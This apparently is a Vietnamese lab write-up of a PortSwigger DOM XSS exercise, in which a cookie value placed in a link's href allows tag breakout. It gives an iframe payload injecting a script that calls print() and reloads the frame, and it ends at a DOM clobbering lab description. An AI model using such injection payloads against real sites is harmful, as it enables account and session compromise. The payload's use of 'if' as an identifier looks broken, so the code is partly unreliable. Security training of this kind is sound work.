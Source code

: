 
```html
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

Đoạn mã này sẽ lưu trạng thái sản phẩm gần nhất mà người dùng đã xem để xem lại ở đầu trang:

<img width="908" alt="image" src="https://github.com/rayinaw/ctf-challenges/assets/108481122/6823d023-1b8e-4f95-9d6c-542657866ad8">

<img width="817" alt="image" src="https://github.com/rayinaw/ctf-challenges/assets/108481122/557de8c0-2643-4de9-b804-bc179cf6f811">

`Last viewed product` được set trực tiếp vào href của `<a>` tag từ cookie, do đó ta có thể đóng tag để gây ra xss như sau:

<img width="893" alt="image" src="https://github.com/rayinaw/ctf-challenges/assets/108481122/e8d6b499-dcf0-4eff-aa89-3907f7fd5163">

<img width="913" alt="image" src="https://github.com/rayinaw/ctf-challenges/assets/108481122/ec6ff652-65bd-4838-989e-ecd1c3518731">

Tuy đã chèn được thẻ `<script>` nhưng ta vẫn chưa load DOM lại nên chưa thể trigger xss, do đó bây giờ ta chỉ cần refresh hoặc click vào `Last viewed product` or something else.. là hàm print được thực thi:

<img width="854" alt="image" src="https://github.com/rayinaw/ctf-challenges/assets/108481122/10285fe5-2339-4420-aa45-bb5134b4e944">


Payload:
```html
<iframe src="https://0a8b002e04352530817ecb01001e00cc.web-security-academy.net/product?productId=1&%27%3E%3Cscript%3Eprint()%3C/script%3E%22" onload=refresh() id=if>
<script>
function refresh() {
    if.src = if.src;
}
</script>
```

<img width="895" alt="image" src="https://github.com/rayinaw/ctf-challenges/assets/108481122/fdc5385c-85a8-4470-878e-2352d6b3c9e3">


### Lab: Exploiting DOM clobbering to enable XSS

>This lab contains a DOM-clobbering vulnerability. The comment functionality allows "safe" HTML. To solve this lab, construct an HTML injection that clobbers a variable and uses XSS to call the alert() function.